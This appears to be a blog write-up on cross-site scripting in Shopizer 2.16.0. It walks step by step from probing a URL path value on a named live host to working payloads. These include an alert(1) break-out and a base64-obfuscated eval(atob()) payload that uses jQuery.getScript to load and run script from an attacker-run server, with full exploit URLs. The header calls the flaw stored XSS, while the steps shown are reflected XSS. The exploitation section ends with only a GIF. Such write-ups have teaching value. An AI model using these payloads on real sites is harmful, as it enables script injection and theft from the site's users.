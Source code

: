 ```yaml
---
layout: post
title: "Shopizer 2.16.0 - 'Multiple' Cross-Site Scripting (XSS)"
date: 2024-04-02 19:43:00 +0300
categories: [Web Exploitation, Web Applications]
tags: 
pin: false
description: A stored cross-site scripting (XSS) vulnerability in Shopizer before version 2.17.0 allows remote attackers to inject arbitrary web script or HTML via customer_name in various forms of store administration and saved in the database. The code is executed for any user of store administration when information is fetched from backend.
toc: true
image: /assets/img/shopizer/shopizer.png
---
```


# Shopizer 2.16.0 - 'Multiple' Cross-Site Scripting (XSS)

## Introduction

- Software Link: `https://github.com/shopizer-ecommerce/shopizer/releases/tag/2.15.0`
- CVE: CVE-2021-33561, CVE-2021-33562

A stored cross-site scripting (XSS) vulnerability in Shopizer before version 2.17.0 allows remote attackers to inject arbitrary web script or HTML via customer_name in various forms of store administration and saved in the database. The code is executed for any user of store administration when information is fetched from backend.

First get yourself familar with the web applicaton, see it features etc

Hosted at: `http://sciatafrica.com:8080`

## 1. Discover the Vulnerability 

Explore the application.
once on the handbag's page load the url , no queston mark indicating the start of the query string

`http://sciatafrica.com:8080/shop/category/handbags.html/ref=c:2`


Lets determine if the `ref` value is treated as a pararmeter.
Inspect HTML Source `(->View Page Source)`

![Desktop View](/assets/img/shopizer/1shopizer.png){: .shadow } 
_@ref=c:2_

Stepping through the results;Finally get our Inline javascript function uses the value `url=url+'?ref=c:2';`


If we modify this value in the URL and the application writes to the JS code, we might inject JS.
Let's use `w00f` to check if it will really write on the JS fucntion.Any value wwill work but lets use `w00f` which has less chances of reappearing in code.
Let's plcae the literal string after `c:2`-url to end with our `w00f`.

url to visit: `http://sciatafrica.com:8080/shop/category/handbags.html/ref=c:2w00f`

Let's view the Page's Source and search for our string `w00f`: 

![Desktop View](/assets/img/shopizer/2shopizer.png){: .shadow } 
_added string w00f_

Back to our page source JS- our content was appended like : `url = url + '?ref=c:2w00f';`

Try to inject single quote to get out of the string and determine if we can inject into the code itself.

Place single quote before `w00f` and inspect again:

URL: `http://sciatafrica.com:8080/shop/category/handbags.html/ref=c:2'w00f`

![Desktop View](/assets/img/shopizer/3shopizer.png){: .shadow } 
_Placed single quote before our w00f_


Our `w00f` was written in the JS code but was not on the Page,the page was broken.

**Update to contain valid javascript code** - let's use `alert(1)`

URL: `http://sciatafrica.com:8080/shop/category/handbags.html/ref=c:2';alert(1);'w00f`

We get a blank page.

> Some applicaton servers and firewalls will block semi-colon in the URL as it is mostly used attacks.We don't know where the issue occured in our application due to lack of logs.
> Other ways to make our payload work as a valid JS  is we try using `+` instead of `;`
{: .prompt-tip }

URL: `http://sciatafrica.com:8080/shop/category/handbags.html/ref=c:2'+alert(1)+'w00f`


![Desktop View](/assets/img/shopizer/4shopizer.png){: .shadow } 
_Testing_


> Excellent!! It Worked!!
{: .prompt-danger }

### Remote Script Loading :

- Our payload will grow in size if we want to perform complicated actions.
- Use the xss vulnerability to inject a link to an external JS file.
- Close existing code block and try to inject a new script tag.
- Inspect application to determine which libraries it uses.If application loads JS libraries, we might use existing functions to make our payload.


`BURP -> TARGET -> Site Map -> {target} -> resources -> js`

- After a few examination we see a few js files.Specifically `jQuery` files.

> You can also use the Debugger window under firefox inspect `ctl+shift+z`.
{: .prompt-info }

![Desktop View](/assets/img/shopizer/5shopizer.png){: .shadow } 
_JS files_


> JQuery library makes DOL manipulation easy with helper functions.One of the helper functions we are interested in is `jQueryGetScript` function to load and execute remote JS file. 
{: .prompt-tip }

- Prepare:
```
nano  xss.js
```
```JS
alert('Testing from Africa!');
```

```bash
$python3 -m http.server 9999
```
- **Craft xss payload that will load our file**: 

- Pass JQueryGetScript on URL.
- Encode whole payload to url.
- Base64 encode the core payload then include function to decode it.

> Remember we noticed semi-colons caused issues with our payload. 
{: .prompt-tip }

```JS
jQuery.getScript('http://192.168.100.6:9999/xss.js')
```

Encode using Burp:
`BURP -> Decoder -> Encode As -> Base64`

BAse64 Encoded String: `alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguMTAwLjY6OTk5OS94c3MuanMnKQ==`

- Wrap our base64 in two functions.First will decode our value and return our string.
- Pass string through eval to execute it as jS.
- Below is our final payload:
`'+eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguMTAwLjY6OTk5OS94c3MuanMnKQ=='))+'`

- Submit our above payload to the application.

Full URL: `http://sciatafrica.com:8080/shop/category/handbags.html/ref=c:2'+eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguMTAwLjY6OTk5OS94c3MuanMnKQ=='))+'`


![Desktop View](/assets/img/shopizer/6shopizer.png){: .shadow } 
_Testing our payload_

> Excellent!! It Worked!!
{: .prompt-danger }

> We notice that our payload generates an error of `Error [object Object]-error-`.From my research this is likely because of the value returned by the GetScript function.We can overcome this by Base64 encoding the entire response.
{: .prompt-tip }

Wrap entire eval using the function `btoa`:

Final Payload: `'+btoa(eval(atob(<<<PasteEncodedpayload>>>)))+'

Sending the above payload loads the page with no error.


## 2. Exploiting the above Reflected XSS

<div style="width:100%;height:0;padding-bottom:56%;position:relative;"><iframe src="https://giphy.com/embed/Jth6eoS4noFUDH7IcM" width="50%" height="50%" style="position:absolute" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div><p><a href="https://giphy.com/gifs/snl-saturday-night-live-season-49-Jth6eoS4noFUDH7IcM"></a></p>